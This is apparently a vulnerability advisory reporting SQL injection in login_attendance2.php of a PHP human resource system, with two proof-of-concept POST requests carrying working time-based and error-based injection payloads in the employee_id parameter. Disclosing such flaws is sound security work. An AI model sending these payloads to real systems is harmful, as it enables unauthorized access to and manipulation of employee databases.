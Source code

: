 # Human Resource Integrated System has SQL Injection in login_attendance2.php

## supplier 

https://code-projects.org/human-resource-integrated-system-in-php-with-source-code/

## Vulnerability file

login_attendance2.php

## Describe

The `employee_id` and `date` parameters in login_attendance2.php are not properly sanitized or parameterized, making them vulnerable to SQL injection. An attacker could exploit this vulnerability by injecting malicious SQL code to manipulate database queries. An attacker could leverage a time-based SQL injection method and a error-based SQL injection method.

![image-20250823000047983](image/image-20250823000047983.png)



## POC

```
POST /login_attendance2.php HTTP/1.1
Host: hris
Content-Length: 115
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

save=1&date=16&employee_id=-1'+union+select+1,1,1,1,1,1,1,1,1,1,1,1,sleep(5)--+
```

Send this request, you can observe an additional 5 seconds time delay triggered by the time-based injection.

```
POST /login_attendance2.php HTTP/1.1
Host: hris
Content-Length: 223
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

save=1&date=16&employee_id=1'+AND+ROW(4299,6410)>(SELECT+COUNT(*),CONCAT(0x716b7a6a71,md5(7532159),0x7178707871,FLOOR(RAND(0)*2))x+FROM+(SELECT+6706+UNION+SELECT+9128+UNION+SELECT+8419+UNION+SELECT+3737)a+GROUP+BY+x)--+mJWV
```

Send this request and you can see `0cd4c262f991e8380746a7f98e6e4b20` in the response body.